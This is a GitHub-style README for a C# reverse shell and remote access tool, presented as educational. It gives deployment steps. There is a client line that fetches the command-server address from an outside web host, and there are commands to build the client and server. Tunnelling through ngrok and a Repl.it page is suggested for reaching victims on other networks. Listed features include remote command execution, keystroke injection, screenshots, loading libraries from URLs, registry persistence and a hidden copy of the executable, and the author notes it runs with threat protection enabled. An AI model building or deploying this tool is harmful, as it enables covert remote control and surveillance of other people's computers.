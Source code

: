 # README.MD
### Project Description
This project is a demonstration of a reverse shell written in C#. It is a powerful tool for remote system management, intended for educational and research purposes.

#### Key Code Features
1. Network Connection: The code uses the TcpClient class to establish a network connection with a remote server. The server's IP address and port are retrieved from a remote web server.

2. Cryptography: To ensure communication security, the code utilizes the SHA256 hashing algorithm and XOR encryption, along with RSA encryption for end-to-end encryption. The keys are regenerated for each iteration to enhance security.

3. Command Handling: The code can read commands from a process's standard output stream and send them to the server. It can also read commands from the server and execute them on the local machine.

4. Additional Functionality: The code includes additional features such as sending keyboard keystrokes, displaying message boxes, executing commands asynchronously, capturing remote screenshots, and loading .NET libraries from URLs.

5. Persistence: The code attempts to make the reverse shell persistent by adding an entry to the Windows registry to execute the program during the user's session startup. It also copies the executable file into a hidden directory.

#### Usage
To download .NET 7.0 as a portable version, see here: Download .NET 7.0 SDK

Direct link: dotnet-sdk-7.0.306-win-x64.zip

#### Compile the Client:
To get started, change the URL at line 158 of client\Program.cs:

```csharp
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
Then, compile the client using dotnet.exe:

```cmd / powershell
dotnet.exe publish client.csproj
```
The single-file binary can be found at:
```path
client\bin\Debug\net7.0-windows\win-x64\publish
```
Next, publish the server:

```cmd / powershell
dotnet.exe publish server.csproj
```
The single-file binary can be found at:

```path
server\bin\Debug\net7.0-windows\win-x64\publish
```
To connect to the server from a network other than the client's, it is recommended to use the ngrok tunneling service and add the IP address and port to a web server with a fixed domain (e.g., on a Repl.it HTML, CSS, JS on https://replit.com).

// The IP address and port must be separated by a colon only.

Example:

```IP:Port
1.2.3.4:8080
```
### Demonstration
#### For information, the videos were recorded on the same machine with real-time threat protection enabled [without sending samples], but it is indeed CLIENT.EXE that performs the actions.

##### - reverse shell
If You Don't see : <a target="_blank" href="https://github.0xsql.repl.co/reverse_shell.gif">reverse_shell.gif</a>
<img src="https://github.0xsql.repl.co/reverse_shell.gif">

##### - MessageBox and SendKeys
If You Don't see : https://github.0xsql.repl.co/send_keys_and_msgb.gif
<br> example of command
msgb>/Your Message
SKS>/Your Keys

##### - remote-desktop
If You Don't see : <a href="https://github.0xsql.repl.co/remote-desktop.gif" target="_blank">remote-desktop.gif</a>
<br> For remote-desktop start server-remote-video.exe in remote-video\server-remote-video\server\bin\Debug
and execute the command on server.exe :
remote-desktop>/<Your IP Address>:8081

#### Disclaimer
This project is published for educational and research purposes. The author is not responsible for any misuse of this tool.
